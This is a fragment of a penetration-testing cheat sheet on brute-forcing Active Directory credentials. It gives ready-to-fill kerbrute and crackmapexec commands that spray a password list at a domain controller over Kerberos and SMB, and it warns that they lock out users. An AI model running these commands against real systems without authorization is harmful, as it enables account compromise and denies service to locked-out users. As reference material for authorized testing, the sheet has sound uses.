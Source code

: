 # Brute-forcing
WILL LOCKOUT USER:
```bash
# Kerberos
kerbrute bruteuser --dc <IP> -d '<DOMAIN>' <PASSLIST> '<USER>'

# SMB
crackmapexec smb <IP> -u '<USER>' -p <PASSLIST> # PTH
```